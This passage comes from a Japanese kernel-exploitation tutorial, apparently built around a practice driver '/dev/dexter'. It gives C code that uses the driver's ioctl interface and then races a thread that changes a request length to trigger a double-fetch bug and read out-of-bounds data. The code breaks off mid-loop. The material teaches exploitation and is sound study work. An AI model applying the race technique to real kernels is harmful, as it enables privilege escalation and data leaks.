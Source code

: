 ## 脆弱性の発火
まずは正しい使い方をしてみましょう。次のようにドライバにデータを保存できます。
```c
int set(char *buf, size_t len) {
  request_t req = { .ptr=buf, .len=len };
  return ioctl(fd, CMD_SET, &req);
}
int get(char *buf, size_t len) {
  request_t req = { .ptr=buf, .len=len };
  return ioctl(fd, CMD_GET, &req);
}

int main() {
  fd = open("/dev/dexter", O_RDWR);
  if (fd == -1) fatal("/dev/dexter");

  char buf[0x20];
  set("Hello, World!", 13);
  get(buf, 13);
  printf("%s\n", buf);

  close(fd);
  return 0;
}
```

次にDouble Fetchの挙動を確認しましょう。まずは適当なコードを書いて、脆弱性が発火することを確認します。ここではセットしていないデータが読み込まれるまで競合を試みるコードを書いています。
```c
int fd;
request_t req;

int set(char *buf, size_t len) {
  req.ptr = buf;
  req.len = len;
  return ioctl(fd, CMD_SET, &req);
}
int get(char *buf, size_t len) {
  req.ptr = buf;
  req.len = len;
  return ioctl(fd, CMD_GET, &req);
}

int race_win = 0;

void *race(void *arg) {
  while (!race_win) {
    req.len = 0x100;
    usleep(1);
  }
  return NULL;
}

int main() {
  fd = open("/dev/dexter", O_RDWR);
  if (fd == -1) fatal("/dev/dexter");

  char buf[0x100] = {}, zero[0x100] = {};
  pthread_t th;
  pthread_create(&th, NULL, race, NULL);
  while (!race_win) {
    get(buf, 0x20);
    if (memcmp(buf, zero, 0x100) != 0) {
      race_win = 1;
```

[^1]: シングルコアで競合を起こす方法も後の章で登場します。